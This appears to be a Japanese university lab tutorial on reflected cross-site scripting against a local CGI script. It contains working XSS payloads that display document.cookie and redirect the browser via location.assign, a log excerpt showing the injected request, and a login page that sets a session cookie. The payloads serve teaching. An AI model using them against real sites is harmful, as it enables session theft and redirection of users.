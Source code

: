 ### ブラウザからURLを入力

`http://localhost/cgi-bin/kachatter.cgi?shohin=<script>alert(document.cookie)</script>
`

アラートウィンドウにクッキーの内容が表示されていることを確認する

### webサーバのアクセスログを表示する

新しいターミナルウィンドウを開く

```bash
$ sudo tail -f /var/log/apache2/access.log

```

```
192.168.0.246/cgi-bin/kachatter.cgi?shohin=%3Cscript%3Ealert(document.cookie)%3C/script%3E" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36"
```

### XSSを使って指定したサーバにアクセスする

`location.assign(URL)` で window をそのページに移動させることができる

ブラウザで index.html にアクセス

`http://localhost/index.html`

商品名のフィールドに以下の文字列を入れる

`<script>location.assign("http://kindai.ac.jp/")</script>`


近大のサイトに飛ばされることを確認する

### login.html の修正

```bash
$ sudo nano /var/www/html/login.html
```

```html
<html>
  <head>
      <script>
      let login = () =>{document.cookie='sessionID=123456789';}
      let show_cookie = ()=>{alert(document.cookie);}
    </script>
  </head>
  <body>
    <h1>ログイン</h1>
    <form name="form1">
      <p><input type="text" value="なすびとまとれんこん" id="password"></p>
      <p><input type="button" value="ログイン" onclick="login()"></p>
      <p><input type="button" value="cookie" onclick="show_cookie()"></p>
    </form>
  </body>
</html>

```
